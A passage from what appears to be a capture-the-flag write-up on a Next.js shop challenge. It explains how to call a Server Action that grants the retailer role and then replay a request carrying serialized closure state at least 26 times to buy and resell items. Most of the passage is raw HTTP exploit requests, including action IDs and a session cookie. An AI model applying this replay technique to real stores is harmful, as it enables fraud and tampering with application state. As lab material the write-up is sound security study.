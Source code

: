 ```
------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```

### Path 3 - State desynchronization through closures

Unfortunately, I did not know of the method of binding Server Actions as shown in the exploits and requests above. Instead, I focused on exploiting the buy/sell functionality after successfully registering a user and setting the user's retailer role.

In the request shown below, we basically call `makeRetailer()`.

```
POST / HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 182

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_ID_758c88ac2c11c3f9c5eac5df2912014fc02de432"


------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```

After that, with the idea of closures we had discussed above about how the state is serialized and saved in the requests itself. We can buy the `Fun` item and then replay the same request at least 26 times for the necessary items we could resell.

```
POST / HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Cookie: token=344e1360bd35ec2f26fcf058950d27d6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 858

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:1"

["$@2"]
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"9337c109f875b15e8546173b9d015d3123b9728c","bound":"$@1"}
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:2"

"12wBRqePUMo/+f7x2mV3ihIJ/a6k5k2B5z0VTQHt8UrAYMwwV7iMngSRK4SQHC7nEGRqFCnIJj+SqqENKz0AD1g9mMP2p4vIXU7vZLhYws4en88FdxAMLfSlAtRofz5prCbpfUVKUoMsYV78AA3y5YoIIjr5NmelPAfl1FD6DLx+zWwjy39McbcH9ON8+OdUbijPVKDHz/fHABeGz1yVV5zBOSpJKwZcnPaAXGs16DaiD3rH9IkgabM34v0OI80hlp+E4wapntsDJbcHF8ZRfrPWglO2AJ5IXmqnRkybPPCQF9wezVgW3JDbcPejHcAU4MuGOLUnrisTPM6jpt3GPGPbyLM="
------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```
